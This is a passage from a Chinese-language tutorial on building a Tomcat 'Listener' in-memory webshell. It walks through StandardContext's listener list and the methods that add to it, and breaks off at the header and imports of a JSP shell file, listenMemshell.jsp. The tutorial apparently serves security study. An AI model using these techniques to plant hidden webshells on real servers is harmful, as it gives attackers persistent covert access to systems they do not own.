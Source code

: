 ```bash
Object instances[] = getApplicationEventListeners();
```

查看此函数

```bash
@Override
public Object[] getApplicationEventListeners() {
    return applicationEventListenersList.toArray();
}
```

所以 listener 存放在 applicationEventListenersList 属性中，所以在 StandardContext 中找到能够向 applicationEventListenersList 添加 listener 的方法  
方法 1：

```bash
/**
 * Add a listener to the end of the list of initialized application event listeners.
 *
 * @param listener The listener to add
 */
public void addApplicationEventListener(Object listener) {
    applicationEventListenersList.add(listener);
}
```

方法 2：

```bash
/**
 * {@inheritDoc} Note that this implementation is not thread safe. If two threads call this method concurrently, the
 * result may be either set of listeners or a the union of both.
 */
@Override
public void setApplicationEventListeners(Object listeners[]) {
    applicationEventListenersList.clear();
    if (listeners != null && listeners.length > 0) {
        applicationEventListenersList.addAll(Arrays.asList(listeners));
    }
}
```

第二个问题：event 如何构造？在 fireRequestInitEvent 方法中由如下代码构造

```bash
ServletRequestEvent event = new ServletRequestEvent(getServletContext(), request);
```

### 5.4 Listener 内存马

listenMemshell.jsp:

```bash
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 14:41
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%!
```
